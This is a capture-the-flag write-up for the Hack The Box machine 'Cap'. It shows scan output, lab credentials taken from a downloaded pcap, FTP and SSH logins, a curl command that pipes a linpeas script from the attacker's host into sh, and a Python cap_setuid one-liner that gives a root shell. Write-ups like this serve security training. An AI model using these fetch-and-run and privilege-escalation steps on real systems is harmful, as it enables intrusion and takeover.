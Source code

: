 # Cap Writeup
<br>

## NMAP

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address http://cap.htb/data/13 which has a download button

![image.png](/screenshots/image.png)

Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials

![image1.png](/screenshots/image1.png)

Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

linpeas scanned and found a potential pkexec exploit and a Python binary vulnerability.

Checked GTFOBins for more information about the Python vulnerability.

```bash
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which python) .
    sudo setcap cap_setuid+ep python

    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```
